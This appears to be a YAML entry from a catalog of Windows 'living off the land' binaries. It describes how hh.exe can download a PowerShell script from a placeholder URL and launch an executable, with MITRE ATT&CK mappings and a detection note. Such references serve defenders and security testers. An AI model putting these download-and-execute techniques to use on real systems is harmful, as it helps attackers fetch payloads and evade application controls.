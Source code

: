 ```yaml
---
Name: Hh.exe
Description: Binary used for processing chm files in Windows
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: HH.exe http://some.url/script.ps1
    Description: Open the target PowerShell script with HTML Help.
    Usecase: Download files from url
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: HH.exe c:\windows\system32\calc.exe
    Description: Executes calc.exe with HTML Help.
    Usecase: Execute process with HH.exe
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\hh.exe
  - Path: C:\Windows\SysWOW64\hh.exe
Code_Sample:
  - Code:
Detection:
  - IOC: hh.exe should normally not be in use on a normal workstation
Resources:
  - Link: https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
---
```

